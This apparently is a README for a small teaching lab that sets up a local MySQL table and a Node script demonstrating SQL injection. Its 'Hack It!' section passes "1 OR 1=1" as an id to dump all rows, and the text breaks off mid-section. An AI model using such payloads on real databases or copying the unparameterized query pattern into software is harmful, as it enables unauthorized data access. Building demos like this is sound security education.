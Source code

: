 # mysql-injection

## Install MySQL and start the server:
    <link>https://www.digitalocean.com/community/tutorials/how-to-install-mysql-on-ubuntu-20-04</link>
## Create DB user and table:
```mysql
CREATE DATABASE `database_injection`;
CREATE USER 'darou'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';
GRANT ALL PRIVILEGES ON `database_injection`.* TO 'darou'@'localhost' WITH GRANT OPTION;
```
## Create table with dummy data:
```mysql
CREATE TABLE `database_injection`.`agents` 
(	
    `id` int(11) NOT NULL AUTO_INCREMENT PRIMARY KEY, 
    `name` CHAR(40),
    `net_worth` BIGINT(15)
);
```
```mysql
INSERT INTO `database_injection`.`agents` (name,net_worth)
VALUES ("Mark Zuckerberg",100000000000);
INSERT INTO `database_injection`.`agents` (name,net_worth)
VALUES ("Bill Gates",129000000000);
INSERT INTO `database_injection`.`agents` (name,net_worth)
VALUES ("Jeff Bezos",184600000000);
INSERT INTO `database_injection`.`agents` (name,net_worth)
VALUES ("Elom Musk",199900000000);
INSERT INTO `database_injection`.`agents` (name,net_worth)
VALUES ("Me (Dariusz)",17);
```

## Install npm dependencies

```sh
npm install
```

## Connect to mysql server

```sh
node index.js <id>
```
it results in
```mysql
SELECT name FROM agents WHERE id=<id>;
```

## Hack It!

### get all users
```sh
node index.js "1 OR 1=1"
```
it results in
```mysql
SELECT name FROM agents WHERE id=1 OR 1=1;
```

### get all user 